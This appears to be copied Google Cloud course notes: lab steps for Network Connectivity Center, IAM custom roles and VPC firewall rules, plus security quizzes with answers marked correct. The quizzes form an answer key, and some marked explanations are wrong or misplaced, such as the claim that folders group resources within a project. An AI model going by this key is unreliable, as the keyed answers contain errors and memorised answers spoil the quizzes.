Network:
vpc-bSubnetwork:
vpc-b-sub1-usw2
Once all sections are configured, scroll down and click Create to launch your virtual machine instance.
Once finished, you should see the two virtual machines in the VM Instances page.
Copy the internal IP of vpc-b-vm-1.
Click Check my progress to verify the objective.
Create VMs in the remote branch office VPCs
Check my progress
Step 3: Run the ping command and verify connectivity to bo2 via NCC transit
To verify the end to end connectivity, run a ping test between vpc-a-vm-1 and vpc-b-vm-1 using the following steps:
SSH into vpc-a-vm-1 by clicking on SSH on the right hand side of vpc-a-vm-1. This launches a SSH client directly from your browser.
Note: You can also SSH into the virtual machine. Learn more about SSH from the Connect to an instance using ssh documentation.
Run a ping test from vpc-a-vm-1 to the internal IP of vpc-b-vm-1.
You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.
xxxxxxxxxxping -c 5 <INTERNAL_IP_OF_VPC-B-VM-1>
Congratulations!
This completes our lab for the Network Connectivity Center as a Transit hub with HA VPNs as spokes.
Quiz
What is the purpose of a Cloud Router, and why is that important?
To load balance traffic across multiple Google Cloud regions and zones.
To dynamically exchange routing information using BGP between Google Cloud VPCs and other networks.
To create and manage virtual private networks (VPNs) between on-premises networks and Google Cloud.
To filter and restrict traffic based on predefined security rules.
This is correct. Cloud Router enables dynamic routing using BGP, allowing Google Cloud VPCs to learn routes from on-premises networks and other cloud environments.
In Network Connectivity Center, what are the two main types of spokes that can be connected to a hub?
Regional spokes and Global spokes
VPC spokes and Global spokes
Global spokes and Hybrid spokes
VPC spokes and Hybrid spokes
Correct. VPC Spokes and hybrid spokes are two types of Network Connectivity Center spokes
09 Managing Security in Google Cloud
Foundations of Google Cloud Security
Quiz
Which TWO of the following statements are TRUE regarding regulatory compliance on Google Cloud?
Contacting your regulatory compliance certification agency is the only way to find out whether Google currently supports that particular standard.
Google's Cloud products regularly undergo independent verification of security, privacy, and compliance controls.
Correct! Google works to achieve certifications against global standards so we can earn your trust.
Google has no plans at this time to expand its already-extensive portfolio of regulatory compliance certifications.
Proper configuration of encryption and firewalls is not the only requirement for achieving regulatory compliance.
Correct! You also need data protection that is in compliance with the regulatory standards you wish to meet.
For Platform-as-a-Service (PaaS) offerings, which of the following is NOT a customer-managed component of the shared security responsibility model?
Network security
Correct! Network security is customer-managed for Infrastructure-as-a-Service (IaaS) offerings. This is Google-managed for Platform-as-a-Service (PaaS) offerings.
Web application security
Access policies
Deployment
Which ONE of the following statements is TRUE concerning Google's built-in security measures?
An organization's on-premises resources are not allowed to connect to Google Cloud in order to lower the risk of DDoS attacks.
Customers always have the option to configure their instances to encrypt all of their data while it is "at rest" within Google Cloud.
To guard against phishing attacks, all Google employee accounts require the use of U2F compatible security keys.
Correct! Google's internal security measures go beyond asking employees for a simple username and password.
Only Google-managed encryption keys are allowed to be used within Google Cloud.
Which of the following statements is TRUE regarding Shared Security Responsibility Model in Google Cloud?
It is a shared responsibility between the customer and Google.
The customer is responsible for the complete stack including application security and access control.
Google is responsible for the complete stack including application security and access control.
Correct! The customer is responsible for everything brought into the cloud as well as access management, the appropriate configuration of firewalls, app security, etc. Google is responsible for the security of the cloud (i.e. the underlying layer).
Securing Access to Google Cloud
Quiz
Which TWO of the following are considered authentication "best practices?"
Requiring 2-Step Verification (2SV) is only recommended for super-admin accounts.
Avoid managing permissions on an individual user basis where possible.
Correct! Assigning users to groups and giving the group role-based permissions is much easier to manage.
Organization Admins should never remove the default Organization-level permissions from users after account creation.
You should have no more than three Organization admins.
Correct! Too many admins can create additional risk as well - the general advice is no more than three admins per organization.
Which of the following statements is TRUE for the use of Cloud Identity?
Cloud Identity can work with any domain name that is able to receive email.
Your organization must use Google Workspace services in order to use Cloud Identity.
You cannot use both Cloud Identity and Google Workspace services to manage your users across your domain.
A Google Workspace or Cloud Identity account can be associated with more than one Organization.
Correct! You do not have to use Google Workspace services to use the Cloud Identity Free edition.
The main purpose of Google Cloud Directory Sync is to: (choose ONE option below)
Help simplify provisioning and de-provisioning user accounts.
Completely replace an Active Directory or LDAP service.
Enable two-way data synchronization between Google Cloud and AD/LDAP accounts.
Correct! Managing user accounts manually can be tedious and time-consuming when an organization has many users.
Identity and Access Management (IAM)
LAB - Configuring IAM
Overview
In this lab, you will configure Identity and Access Management (IAM) to grant roles and create custom roles. IAM lets you create and manage permissions for Google Cloud resources. IAM unifies access control for Google Cloud services into a single system and presents a consistent set of operations.
Objectives
In this lab, you will learn how to:
Use IAM to implement access control.
Restrict access to specific features or resources.
Use predefined roles to provide Google Cloud access.
Create custom IAM roles to provide permissions based on your own job roles.
Modify custom roles.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Sign in with two user accounts
In this task, you sign in using two different user accounts. These accounts are used later in the lab to explore IAM access to specific resources.
Sign in to the Google Cloud Console as the first user
For this lab, Qwiklabs has provisioned you with two user names available in the Connection Details dialog.
Use a Chrome incognito window and sign in to the Cloud Console with the Username 1 provided in Qwiklabs. Note that both usernames use the same password.
Accept the Terms and Conditions for your temporary Google account.
Because this is a temporary account, do not add recovery option data or sign up for free trials.
When prompted, accept the Terms and Conditions for Google Cloud.
Sign in to the Cloud Console as the second user
Open another browser tab in your incognito window.
Browse to the Cloud Console.
Click on the user icon in the top-right corner of the screen, and then click Add account.
Sign in to the Cloud Console with the Username 2 provided in Qwiklabs.
Note: At some points in this lab, if you sign out of the Username 1 account, the Username 2 account is deleted by Qwiklabs. So be sure to remain signed in to Username 1.
Task 2. Explore current roles in the IAM console
In this task, you explore the current roles for Username 1 and Username 2.
Navigate to the IAM console and explore roles
Make sure you are on the Username 1 Cloud Console tab.
To view the IAM console, in the Navigation menu, click IAM & admin > IAM.
In the IAM console, locate the line for Username 1. Note that Username 1 has a few roles, including Project Owner.
Locate the line for Username 2. Note that Username 2 has a Project Viewer role.
Note: In the next three steps, be sure NOT to change any of the permissions. You will use the edit feature just to view the roles assigned.
Click the Edit principal button
on the line for Username 2.
Click Viewer to expand the list of possible roles. Do not change any of the roles yet, but you do have permissions to do so because Username 1 is project owner.
Click outside the role list to collapse it, and then click Cancel.
Switch to the Cloud Console tab for Username 2.
On the Navigation menu, click IAM & admin > IAM.
Click the Edit principal button
Task 3. Prepare a resource for access testing
In this task, you create a Cloud Storage bucket and a sample text file. You test access to the sample file using Username 2.
Create a bucket and upload a sample file
Switch to the Username 1 Cloud Console tab.
On the Google Cloud Console title bar, click Activate Cloud Shell (
Run the following command to create a new storage bucket in
REGION:
xxxxxxxxxxgcloud storage buckets create -l Region gs://$DEVSHELL_PROJECT_ID
Run the following command to create a sample text file in your Cloud Shell:
xxxxxxxxxxecho "this is a sample file" > sample.txt
Run the following command to copy the file to the bucket just created:
xxxxxxxxxxgcloud storage cp sample.txt gs://$DEVSHELL_PROJECT_ID
Click Check my progress to verify the objective.
Prepare a resource for access testing
Check my progress
Verify the Project Viewer role access
Switch to the Username 2 Cloud Console tab.
Click Activate Cloud Shell (
Run the following command to verify that Username 2 can view the file in the bucket:
xxxxxxxxxxgcloud storage ls gs://$DEVSHELL_PROJECT_ID
Run the following commands to create a file and try to upload it to the bucket:
xxxxxxxxxxecho "this is another file" > sample2.txtgcloud storage cp sample2.txt gs://$DEVSHELL_PROJECT_ID
Username 2 cannot upload the file to Cloud Storage because it only has the Project Viewer role.
Output:
xxxxxxxxxxCopying file://sample2.txtERROR: User xxx does not have permission to access b instance (or it may not exist): student-xx-xxxx@qwiklabs.net does not have storage.objects.create access to the Google Cloud Storage object.
Task 4. Remove project access
In this task, you remove the Project Viewer role for Username 2. You verify that Username 2 has lost access to the Cloud Storage bucket.
Remove the Project Viewer role for Username 2
Switch to the Username 1 Cloud Console tab.
On the Navigation menu, click IAM & admin > IAM.
For Username 2, click on the pencil icon edit (
Click the delete icon next to the assigned role.
Click on Save.
Notice that the user has disappeared from the list! The user has no access now. Username 2 still has a Google Cloud account, but has no access to the project.
Verify that Username 2 has lost access
Switch to the Username 2 Cloud Console tab.
Run the following command in Cloud Shell to verify that Username 2 can no longer view the file in the bucket:
xxxxxxxxxxgcloud storage ls gs://$DEVSHELL_PROJECT_ID
Output:
xxxxxxxxxxERROR: User xxx does not have permission to access b instance (or it may not exist): student-xx-xxxx@qwiklabs.net does not have storage.objects.list access to the Google Cloud Storage bucket.
If you can still see the file, the access change has not taken effect yet. Wait a minute and try the command again until you see
Permission denied on resource.From the Username 2 console, try to access the Compute Engine service. On the Navigation menu, click Compute Engine > VM instances. You will not even be able to view the Compute Engine dashboard.

Note: Username 2 still has a Google Cloud account, but has no access to the project from either the Cloud Console or the CLI.
Task 5. Add storage access
In this task, you add storage object viewer permissions for Username 2 and verify that the user can view the contents of the Cloud Storage bucket.
Add storage object viewer only permissions for Username 2
Copy the value of Username 2 from the Qwiklabs Connection Details dialog.
Switch to the Username 1 Cloud Console tab.
On the Navigation menu, click IAM & admin > IAM.
Click GRANT ACCESS to add a user.
For New principals, paste the Username 2 value you copied from the Qwiklabs Connection Details dialog.
In the next step, you will use a predefined role to give Storage Object Viewer permissions to Username 2. Feel free to explore the available predefined roles.
For Select a role, select Cloud Storage > Storage Object Viewer.
Click Save.
Verify that Username 2 has storage access
Switch to the Username 2 Cloud Console tab.
Note: Username 2 doesn't have the Project Viewer role, so the user still can't see the project or any of its resources in the Cloud Console. For example, Username 2 still cannot view the Compute Engine dashboard. However, Username 2 has specific access to view Cloud Storage and can make API calls to view storage.
Run the following command in Cloud Shell to view the contents of the bucket you created earlier:
xxxxxxxxxxgcloud storage ls gs://$DEVSHELL_PROJECT_ID
As you can see, Username 2 now has limited access to view Cloud Storage.
Task 6. Create custom roles
In this task, you create a custom role for a job role of Privacy Reviewer. This role performs data privacy reviews and needs permissions to view data in various different services, such as Cloud Storage, Cloud Bigtable, and Cloud Spanner
Google Cloud also allows for the creation of custom roles. Custom roles can be used to map your organization's specific job roles to Google Cloud permissions. A custom role can combine permissions from multiple Google Cloud services into one role and then share that new role across your entire organization.
Note: Generally it is better to use predefined roles first, because they are managed by Google. Creating and using custom roles allows for specific permissions to be set, but add operational overhead because they must be manually managed.
Custom roles can also be created based on an existing predefined role. However, if the predefined role that your custom role is based on changes after you create your custom role, those changes are not inherited by the custom role.
To create a custom role, a caller must possess the iam.roles.createpermission. By default, the owner of a project or an organization has this permission and can create and manage custom roles. In this lab, Username 1 is a project owner.
Create a custom role using the Cloud Console
Switch to the Username 1 Cloud Console tab.
On the Navigation menu, click IAM & admin > Roles. This page currently displays all the predefined roles. Notice that there are many of them (there are several hundred pages of them).
Click Create Role.
Use the following values for the Role properties:
| Title | Description | ID | Role launch stage |
|---|---|---|---|
Privacy Reviewer | Custom role to perform data reviews | privacyreviewer | Alpha |
Each of the placeholder values is described below:
Title is a friendly title for the role, such as "Role Viewer."
Description is a short description about the role, such as "My custom role description."
ID must be unique.
Role launch stage indicates the stage of a role in the launch lifecycle, such as Alpha, Beta, GA, or Disabled.
Click Add permissions.
In the Filter field, type
storage, and then press Enter.Select storage.buckets.list, storage.objects.list, and storage.objects.get, and then click Add. 
Note: To add required permissions you may need to see next pages.
Click Add permissions again.
In the Filter field, type
spanner, and then press Enter.Select spanner.databases.get and spanner.databases.list, and then click Add.
Click Add permissions again.
In the Filter field, type
bigtable, and then press Enter.Select bigtable.tables.get, bigtable.tables.list, and bigtable.tables.readRows, and then click Add.
Your permissions should look like this:

Click Create.
Your new custom role should now be displayed at the top of the Roles table.
Create a custom role using the CLI and YAML file
Roles can also be created using the CLI and a YAML file. The YAML file contains the role definition and is in the form:
xxxxxxxxxxtitle: [ROLE_TITLE]description: [ROLE_DESCRIPTION]stage: [LAUNCH_STAGE]includedPermissions:- [PERMISSION_1]- [PERMISSION_2]
So the YAML for the role you just created in the Cloud Console would look like:
xxxxxxxxxxtitle: Privacy Reviewerdescription: Custom role to perform data reviewsstage: ALPHAincludedPermissions:- storage.buckets.list- storage.objects.list- storage.objects.get- spanner.databases.get- spanner.databases.list- bigtable.tables.get- bigtable.tables.list- bigtable.tables.readRows
Do not copy the YAML file above; you will create a different role using the CLI.
Verify that you are still on the browser tab for Username 1, and open Cloud Shell if it is not already open.
To create a new file called role.yaml, run the following command:
xxxxxxxxxxnano role.yaml
Copy the following role definition and paste into the nano editor in Cloud Shell:
xxxxxxxxxxtitle: App Viewerdescription: Custom role to view appsstage: ALPHAincludedPermissions:- compute.instances.get- compute.instances.list- appengine.versions.get- appengine.versions.list
Press CTRL+X, press Y, and then press Enter to save the file.
To create a new role, run the following command:
xxxxxxxxxxgcloud iam roles create app_viewer --project \$DEVSHELL_PROJECT_ID --file role.yaml
You will see the following output.
Output:
xxxxxxxxxxCreated role [app_viewer].description: Custom role to view appsetag: BwVshqVuvBs=includedPermissions:- appengine.versions.get- appengine.versions.list- compute.instances.get- compute.instances.listname: projects/xxxxxxxxxx/roles/app_viewerstage: ALPHAtitle: App Viewer
To list all the custom roles in your project, run the following command:
xxxxxxxxxxgcloud iam roles list --project $DEVSHELL_PROJECT_ID
You will see both roles you created.
Click Check my progress to verify the objective.
Create custom roles
Check my progress
Task 7. Use a custom role
In this task, you create a custom role and assign it to Username 2.
Make sure you are on the Username 1 Cloud Console tab.
On the Navigation menu, click IAM & admin > IAM.
In the IAM console, locate the line for Username 2 and click the Edit principal (
Click Add another role, and then click Select a role.
In the Custom category, select one of the roles you just created.
Click Save.
You have assigned Username 2 to one of your custom roles.
Task 8. Maintain custom roles
In this task, you modify, disable, delete, and un-delete a custom role.
When using custom roles, it's important to track what permissions are associated with the roles you create, because available permissions for Google Cloud services evolve and change over time. Unlike Google Cloud predefined roles, you control if and when permissions are added or removed.
Modify role permissions
To modify an existing role, you need to first get the role's definition, update the definition, and then update the role.
Make sure you are on the Username 1 Cloud Console tab.
To retrieve the app_viewer role's definition, run the following command in Cloud Shell:
xxxxxxxxxxgcloud iam roles describe app_viewer --project \$DEVSHELL_PROJECT_ID
The describe command returns the following output.
Output:
xxxxxxxxxxdescription: Custom role to view appsetag: [Etag value]includedPermissions:- appengine.versions.get- appengine.versions.list- compute.instances.get- compute.instances.listname: projects/[Project_ID]/roles/app_viewerstage: DISABLEDtitle: App Viewer
Copy the output from your describe command. Be sure to copy from the
descriptionline to thetitleline.Run the following command to create a new YAML file:
xxxxxxxxxxnano update-role.yaml
Paste the output from the describe command into the nano editor.
Add the following two lines just below the
includedPermissions:lines:
xxxxxxxxxx- container.clusters.get- container.clusters.list
Press CTRL+X, press Y, and then press Enter to save the file.
To update the app_viewer role, run the following command:
xxxxxxxxxxgcloud iam roles update app_viewer --project \$DEVSHELL_PROJECT_ID --file update-role.yaml
The app_viewer role has been updated and two permissions were added.
Click Check my progress to verify the objective.
Modify role permissions
Check my progress
Disable a role
You can disable a custom role. When a role is disabled, any policy bindings related to the role are inactivated, which means that the permissions in the role will not be granted, even if you grant the role to a user.
Make sure you are on the Username 1 Cloud Console tab.
To disable the app_viewer role created earlier in this lab, run the following command in Cloud Shell:
xxxxxxxxxxgcloud iam roles update app_viewer --project \$DEVSHELL_PROJECT_ID --stage DISABLED
Delete a role
Roles that are deleted are suspended and cannot be used to create new IAM policy bindings. After the role has been deleted, existing bindings remain, but are inactive. The role can be un-deleted within seven days. After seven days, the role enters a permanent deletion process that lasts 30 days.
Make sure you are on the Username 1 Cloud Console tab.
To delete the app_viewer role created earlier in this lab, run the following command in Cloud Shell:
xxxxxxxxxxgcloud iam roles delete app_viewer --project \$DEVSHELL_PROJECT_ID
To list all the roles in the project, run the following command:
xxxxxxxxxxgcloud iam roles list --project $DEVSHELL_PROJECT_ID
Notice that the deleted app_viewer role is no longer listed.
To list all the roles in the project including the deleted roles, run the following command:
xxxxxxxxxxgcloud iam roles list --project $DEVSHELL_PROJECT_ID \--show-deleted
Un-delete a role
Role can be un-deleted within seven days of being deleted.
To un-delete the app_viewer role, run the following command in Cloud Shell:
xxxxxxxxxxgcloud iam roles undelete app_viewer --project \$DEVSHELL_PROJECT_ID
To list all the roles in the project, run the following command:
xxxxxxxxxxgcloud iam roles list --project $DEVSHELL_PROJECT_ID
Notice that the app_viewer role is listed again.
Review
In this lab, you did the following:
Used IAM to implement access control.
Restricted access to specific features or resources.
Used predefined roles to provide Google Cloud access.
Created custom IAM roles to provide permissions based on your own job roles.
Modified custom roles.
Quiz
Which THREE of the following are IAM Objects that can be used to organize resources in Google Cloud?
Project
Correct! A project is a collection of resources that share the same billing and lifecycle. It's the primary unit of organization in Google Cloud.
Organization
Correct! An organization is the highest level of hierarchy in Google Cloud. It allows you to manage multiple projects and accounts with a central point of administration.
Bucket
Instance
Container
Role
Member
Folder
Correct! Folders are used to group resources within a project. They provide a logical way to organize and manage your resources.
Which TWO of the following statements about Cloud IAM Policies is TRUE?
An organization policy can only be applied to the organization node.
A policy is a collection of access statements attached to a resource.
Correct! One way to think of it is, resource policies are a union of parent and resource.
A Policy binding binds a list of members to a role.
Correct! Members can be user accounts, Google groups, Google domains, and service accounts.
A less restrictive parent policy will not override a more restrictive child resource policy.
Projects in Google Cloud provide many management-related features, including the ability to (choose TWO)
Selectively enable specific services and APIs.
Correct! You can also assign manager permissions more effectively,
Track and manage quota usage.
Correct! You can also track general resource usage as well.
Balance server load between different Projects.
Keep on-prem AD/LDAP accounts synced up with user's Google Cloud resources.
Configuring Virtual Private Cloud for Isolation and Security
LAB - Configuring VPC Firewalls
Overview
In this lab, you investigate Virtual Private Cloud (VPC) networks and create firewall rules to allow and deny access to a network and instances.
You begin by creating an automatic VPC network, a custom VPC network, and some VPC instances in those networks. You verify that the default-allow-ssh firewall rule is working and then compare this to the user created custom network to verify no ingress is allowed without custom firewall rules.
After deleting the default network, you use firewall rule priorities,to allow both ingress and egress of network traffic to your VMs.
Objectives
In this lab, you will learn how to:
Create an auto-mode network, a custom-mode network, and associated subnetworks.
Investigate firewall rules in the default network and then delete the default network.
Use features of firewall rules for more precise and flexible control of connections.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Task 1. Create VPC networks and instances
In this task, you create an automatic VPC network and custom VPC network, and some initial VPC instances in those networks.
On the Google Cloud Console title bar, click Activate Cloud Shell (
To create the network mynetwork with auto subnets, run the following command:
xxxxxxxxxxgcloud compute networks create mynetwork --subnet-mode=auto
Note: When an auto mode VPC network is created, one subnet from each region is automatically created within it. These automatically created subnets use a set of predefined IP ranges that fit within the 10.128.0.0/9 CIDR block.
You will now create a network with custom subnets. You can choose any private RFC 1918 CIDR block for the primary IP address range of the subnets.
To create the network privatenet with custom subnets, run the following command:
xxxxxxxxxxgcloud compute networks create privatenet \--subnet-mode=custom
To create a custom subnet in the privatenet network, run the following command:
xxxxxxxxxxgcloud compute networks subnets create privatesubnet \--network=privatenet --region=us-east4 \--range=10.0.0.0/24 --enable-private-ip-google-access
To create some instances to use later for testing in all networks, run these commands:
xxxxxxxxxxgcloud compute instances create default-vm-1 \--machine-type e2-micro \--zone=us-east4-a --network=default
xxxxxxxxxxgcloud compute instances create mynet-vm-1 \--machine-type e2-micro \--zone=us-east4-a --network=mynetwork
xxxxxxxxxxgcloud compute instances create mynet-vm-2 \--machine-type e2-micro \--zone=us-central1-f --network=mynetwork
xxxxxxxxxxgcloud compute instances create privatenet-bastion \--machine-type e2-micro \--zone=us-east4-b --subnet=privatesubnet --can-ip-forward
xxxxxxxxxxgcloud compute instances create privatenet-vm-1 \--machine-type e2-micro \--zone=us-east4-c --subnet=privatesubnet
Click Check my progress to verify the objective.
Create VPC networks and instances
Check my progress
Task 2. Investigate the default network
In this task, you explore the default network and verify that the default-allow-ssh firewall rule is working. Later, you delete the default-vm-1 instance and default network because you no longer need it.
Return to the Cloud Console and view the firewall rules.
On the Navigation menu, click VPC network > Firewall.
The following four default rules are created for the default network:

Remember, all networks also have the following 2 rules, which are not displayed in the console:

To check that the default-allow-ssh firewall rule is working, ssh into the default-vm-1 instance in the default network and test it.
On the Navigation menu, click Compute Engine > VM instances to display a list of VM instances.
In the row for the default-vm-1 instance, click SSH.
You should connect successfully via SSH to the instance because of the default-allow-ssh rule. You can ping www.google.com to test the egress connectivity. Press Ctrl+C to stop the ping.
Delete the default-vm-1 instance
Now delete the default-vm-1 instance because you no longer need it.
In the Navigation menu, click Compute Engine > VM instances, select the default-vm-1 instance and then click Delete.
In the confirmation box, click Delete.
Delete the default network
Note: Because the default network allows relatively open access, we recommend that you delete it for production projects.
On the Navigation menu, click VPC network > VPC networks to display the list of VPC networks in the Cloud Console.
Click the default network to view the network details.
Click Delete VPC Network.
In the confirmation box, click Delete.
Wait for the network to be deleted and verify that the default network is no longer displayed on the VPC Networks page.
Task 3. Investigate the user-created networks
In this task, you explore the user-created networks to verify no ingress is allowed without custom firewall rules.
Verify that no ingress is allowed without custom firewall rules
Remember, all networks have the following 2 rules (which will not be displayed in the Console) to block all incoming traffic and allow all outgoing traffic. Unlike the default network, user-created networks do not have any other rules by default, so currently no inbound traffic is allowed.
On the Navigation menu, click Compute Engine > VM instances to display a list of VM instances.
In the row for mynet-vm-1 or mynet-vm-2, click SSH.
You should NOT be able to connect via SSH to the instances.
You will now try to SSH into an instance from the Cloud Shell.
Switch back to or reopen Cloud Shell.
To try to ssh into the mynet-vm-2 instance, run the following command:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-2 --zone us-central1-f
If prompted, type Y and press Enter twice to proceed.
We should NOT be able to connect via SSH to the instances. There is currently no inbound access allowed. Igonre the error message ERROR: (gcloud.compute.ssh) [/usr/bin/ssh] exited with return code [255]
Task 4. Create custom ingress firewall rules
In this task, you use Cloud Shell as your client host to test SSH connectivity to the instances. The external IP address of the Cloud Shell instance can be easily retrieved.
However, the IP address of your Cloud Shell instance can change if you close and reopen it, or if it is recycled due to inactivity. This should not be a problem during this lab. For a "real" project, you would allow the IP address of your SSH client host and there should not be a problem.
Note: As you just verified, the browser-based console SSH feature used to connect to VM instances does not currently work. If you want to allow that, you need a firewall rule that allows the source IP address. However, source IP addresses for browser-based SSH sessions are dynamically allocated by the Cloud Console and can vary from session to session.
For the feature to work, you must allow connections either from any IP address, or from Google's IP address range, which you can retrieve using public SPF records. Either of these options may pose unacceptable risks, depending on your requirements. Instead, you would allow the IP address of the SSH clients you are using to connect.
Allow SSH access from Cloud Shell
Switch back to or reopen Cloud Shell.
To retrieve the external IP address of the Cloud Shell instance, run the following commands:
xxxxxxxxxxip=$(curl -s https://api.ipify.org)echo "My External IP address is: $ip"
Sample output (your IP will be different):
xxxxxxxxxxMy External IP address is: 35.229.72.135
To add a firewall rule that allows port 22 (SSH) traffic from the Cloud Shell IP address, run the following command:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-ingress-allow-ssh-from-cs \--network mynetwork --action ALLOW --direction INGRESS \--rules tcp:22 --source-ranges $ip --target-tags=lab-ssh
This firewall rule is also given a target tag of lab-ssh, which means it applies only to instances that are tagged with the lab-ssh tag.
To view the firewall rule in the Cloud Console, on the Navigation menu, click VPC network > Firewall.
It will look similar to the following, but your IP address will be different:
This firewall rule will be applied only to instances tagged with lab-ssh. It is currently not being applied to any instances.
Note: You have just created and applied a firewall rule using a tag. One issue with tags is that they must be added to instances and could possibly be added or removed inadvertently. Firewall rules can also be applied to instances by the service account used. These rules will be applied automatically to all instances that use the specified service account.
To add the lab-ssh network tag to the mynet-vm-2 and mynet-vm-1 instances, run the following commands in Cloud Shell:
xxxxxxxxxxgcloud compute instances add-tags mynet-vm-2 \--zone us-central1-f \--tags lab-sshgcloud compute instances add-tags mynet-vm-1 \--zone us-east4-a \--tags lab-ssh
Stateful firewalls
In VPC networks, firewall rules are stateful. So for each initiated connection tracked by allow rules in one direction, the return traffic is automatically allowed, regardless of any rules.
To ssh into the mynet-vm-2 instance, run the following command in Cloud Shell:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-2 --zone us-central1-f
It will take several seconds to negotiate the SSH keys, but the connection should succeed. This verifies that the firewall rule is allowing the traffic.
Type
exitto log off the mynet-vm-2 instance.To ssh into the mynet-vm-1 instance, run the following command in Cloud Shell:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-1 --zone us-east4-a
This connection should also succeed because the mynet-vm-1 instance is in the same network, and the firewall rule you created is allowing access to all instances.
